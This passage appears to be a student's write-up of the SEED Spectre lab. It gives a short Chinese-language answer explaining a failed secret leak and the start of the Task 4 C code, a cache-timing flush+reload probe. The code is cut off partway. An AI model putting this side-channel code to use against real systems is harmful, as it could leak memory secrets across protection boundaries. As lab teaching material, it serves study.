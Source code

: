 * Replace MARK 4 with victim(i + 20); run the code again and explain your observation.

  无法成功获得secret。`i+20`均不满足`x<size`，CPU被训练为选择False分支。

![image-20220118000232395](spectre.assets/image-20220118000232395.png)

## Task 4: The Spectre Attack

```c
#include <stdio.h>
#include <stdint.h>
#include <emmintrin.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (120)
#define DELTA 1024
unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9};
char *secret = "Some Secret Value"; // MARK 1
uint8_t array[256 * 4096];
void reloadSideChannel()
{
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
	for (i = 0; i < 256; i++) {
		addr = &array[i * 4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD) {
			printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
			printf("The Secret = %d.\n", i);
		}
	}
}
void flushSideChannel()
```
